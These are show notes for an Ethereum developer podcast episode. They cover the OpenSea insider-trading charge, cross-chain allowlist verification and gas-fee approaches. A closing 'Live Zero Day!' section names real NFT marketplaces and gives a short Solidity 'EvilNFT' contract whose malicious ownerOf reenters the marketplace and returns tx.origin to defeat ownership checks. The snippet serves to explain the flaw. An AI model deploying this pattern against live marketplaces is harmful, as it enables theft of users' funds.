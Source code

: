 ```yaml
---
posted: true
guid: "B08380FC-F902-47CF-9EF7-4F10CDB64671"
title: "Evil ownerOf"
subtitle: ""
description: "We talk about OpenSea insider trading charge, facts, legal analysis, allow list to your (testnet) beta testers, beer of the day, make your own bridge (simple, insecure), drops with random timing, cross chain minting by centralizing, and Evil ownerOf."
time: "2022-06-07 18:00:00 -0500"
itunes-explicit: false
itunes-episode: 27
itunes-episodeType: full

# More info
youtube-full: https://youtu.be/_RVWOU8dOM4
discussion: https://twitter.com/fulldecent/status/1534317390971998209

timeline:
  - seconds: 67
    title: OpenSea insider trading charge, facts
  - seconds: 141
    title: Legal analysis
  - seconds: 402
    title: Give allow list to your (testnet) beta testers
  - seconds: 543
    title: Beer of the day
  - seconds: 552
    title: Make your own bridge (simple, insecure)
  - seconds: 711
    title: Drops with random timing!
  - seconds: 786
    title: Cross chain minting by centralizing
  - seconds: 905
    title: Evil ownerOf


# File information
enclosure-url: "https://media.phor.net/csh/2022-06-07-episode-27.m4a"
enclosure-length: 26287924
enclosure-type: "audio/x-m4a"
itunes-duration: 1224

# CSH information
badges: []
---
```


<!--end of quick notes-->

- OpenSea insider trading
  - https://www.justice.gov/usao-sdny/pr/former-employee-nft-marketplace-charged-first-ever-digital-asset-insider-trading-scheme
  - https://www.bloomberg.com/opinion/articles/2022-06-02/don-t-insider-trade-nfts#xj4y7vzkg
- @037 If you wanted to do an airdrop of coins to only a set of wallets that participated on another contract in a dev chain (example: Rinkeby), is there a way to do cross-chain verification using an arbitrary block height? (example: give 10 coins from Contact "A" in Mainnet if Wallet "A" interacted with Contract "B" on Rinkeby before block height "X"). This is to promote mass beta testing to hopefully catch bugs before live deploy.…
  - Option A – Bridge
    - Use Rinkeby to make a separate contract and use a bridge to send those tokens to the other chain.
  - Option B – “get hands dirty”
    - Rinkeby allowlist contract
      - Function isAllowlisted emits logs, not a view function, in other words ONE transaction results in MULTIPLE allow list validations
    - On Mainnet validate these logs
      - Validate multiple consecutive blocks, with difficulty, using parent block and difficulty, this only works with proof of work
      - Validate specific transaction using inclusion Merkle proof
      - Validate and the transaction receipt (see [Yellow Paper BERLIN](https://ethereum.github.io/yellowpaper/paper.pdf), page 6, transaction receipt data structure) to confirm the logs were emitted
      - Optional: add a time limit to this redeemability (using block.timestamp)
  - Option C – Centralize
    - Time public time limits / redeem periods / for accountability
    - After that happens, everybody can see it and run the tool, copy this: https://github.com/su-squares/update-script and https://github.com/miguelmota/merkletreejs-nft-whitelist
- Addressing gas fees
  - Bonding curves
  - Dutch auctions
- Live Zero Day!
  - Affected marketplaces are potentially 2018 smart contracts that allow selling any NFT, and have a balance of value (not just allowlisted ones)
    - OpenSea
    - Rarebits
    - Superrare
    - Niftygateway

```solidity
// SPDX-License-Identifier: UNLICENED
pragma solidity 0.5.0;

interface NFT {
  function ownerOf(uint256) external view returns (address);
}

contract EvilNFT {
  Marketplace public marketplace;

  function setMarketplace(Marketplace marketplace_) external {
    marketplace = marketplace_;
  }

  function ownerOf(uint256) external returns (address) {
    marketplace.reprice();
    return address(tx.origin);
  }
}

contract Marketplace {
  uint256 public price = 0;

  function reprice() external {
    price++;
  }

  function doSomething(NFT nft, uint256 tokenID) external {
    // collect money from msg.sender
    require(nft.ownerOf(tokenID) == msg.sender);
    // check price
    // send money to DAO
  }
}
```

- Bankless got blocked on YouTube
  - CEO tweeted sorry!